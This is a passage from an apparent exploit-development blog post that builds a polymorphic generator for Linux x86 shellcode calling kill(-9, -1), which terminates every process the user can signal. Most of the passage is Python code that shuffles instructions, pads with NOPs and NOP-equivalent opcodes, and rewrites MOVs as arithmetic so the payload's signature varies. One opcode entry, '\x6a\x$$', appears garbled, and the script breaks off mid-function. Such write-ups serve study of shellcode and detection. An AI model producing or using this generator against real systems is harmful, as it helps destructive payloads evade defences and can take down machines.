     if mov_to_cl == True:
        code += "\\x89\\xc1";       # mov ecx, eax

    return code;

{%endhighlight%}

![Kill with math]({{site.url}}/assets/images/kill_math.png)

This line will create the _kill them all_ shellcode with the div strategy.
Please note that we first invoke the CL set and then AL value.

{%highlight python%}
shellcode="\\x31\\xc0\\x31\\xdb\\x31\\xc9"+kill_div_for_mov(9, True)+kill_div_for_mov(37, False)+"\\x4b\\xcd\\x80";
{%endhighlight%}

{%asciicast 198421 %}

### The polymorphic generator for kill(-9, -1)

Here it is the python script using the described strategies to create a
polymorphic version of kill -9, -1 shellcode.

{%highlight python%}
#!/usr/bin/env python

from random import randint, shuffle;
import sys, getopt;
import socket;

def help():
    print sys.argv[0] + " [options]"
    print "Valid options:"
    print "\t-h, --help: show this help"
    print "\t-s, --shuffle: use SHUFFLE strategy on operands"
    print "\t-n, --nop: add a random number of NOPs to the shellcode"
    print "\t-N, --nop-equivalent: add some NOP equivalent instruction to the code"
    print "\t-m, --math: use math strategy for MOV"
    return 0

def kill_shuffle():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    shuffle(init_blk);
    shuffle(setup_blk);

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";

def kill_nop_dope():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    n = randint(0, 3); # our shellcode is 13 byte lenght, we can expand it no more than 3 bytes
    nop_blk = ["\\x90"]*n
    setup_blk.extend(nop_blk)
    shuffle(init_blk);
    shuffle(setup_blk);

    return "".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80";

def kill_nop_super_dope():
    init_blk =["\\x31\\xdb", "\\x31\\xc9", "\\x31\\xc0"];
    setup_blk=["\\x4b", "\\xb1\\x25", "\\xb0\\x09"];
    nop_blk=["\\x90", "\\x6a\\x$$", "\\x42", "\\x4a", "\\x50", "\\x53", "\\x51", "\\x52"]

    shuffle(nop_blk)
    n = randint(0, 3); # our shellcode is 13 byte lenght, we can expand it no more than 3 bytes
    to_add=nop_blk[0:n]
    setup_blk.extend(to_add)
    par = randint(1,255);